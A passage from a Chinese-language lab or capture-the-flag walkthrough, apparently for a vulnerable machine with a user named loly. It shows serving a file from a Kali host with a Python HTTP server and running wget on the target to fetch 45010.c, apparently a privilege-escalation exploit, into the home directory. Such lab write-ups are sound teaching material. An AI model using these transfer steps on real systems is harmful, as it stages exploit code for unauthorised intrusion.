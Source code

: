![](./pic/31.jpg)

在`kali`使用`python`开启监听，然后靶机使用`wget`下载即可

```shell
#kali执行
python3 -m http.server 1234

#靶机执行
wget http://192.168.10.6:1234/45010.c
```

这里在`loly`的主目录，因为他有一个脚本，可能会定期清理`/tmp`目录，我也不想再更改脚本，省时间

![](./pic/32.jpg)

